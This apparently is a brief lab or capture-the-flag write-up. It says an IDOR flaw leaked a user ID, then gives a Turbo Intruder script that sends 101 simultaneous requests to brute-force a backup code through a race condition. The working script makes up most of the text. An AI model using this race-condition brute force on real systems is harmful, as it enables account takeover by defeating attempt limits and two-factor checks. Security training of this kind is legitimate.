


Using idor to get the userid

Then Using turbor intruder


```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=101,   # 101 concurrent connections
                           requestsPerConnection=1,
                           engine=Engine.THREADED
                           )

    for i in range(101):  # 0,1,2,...,100
        code = str(i)

        # Replace the hardcoded backupCode=1 with the current code
        req = target.req.replace('backupCode=1', 'backupCode=' + code)

        # Update Content-Length because body length changes for codes like 10, 100
        head, sep, body = req.partition('\r\n\r\n')
        head = '\r\n'.join(
            'Content-Length: ' + str(len(body))
            if line.lower().startswith('content-length:')
            else line
            for line in head.split('\r\n')
        )
        req = head + sep + body

        # Queue all requests behind the same gate
        engine.queue(req, gate='race1')

    # Release all queued requests at once
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```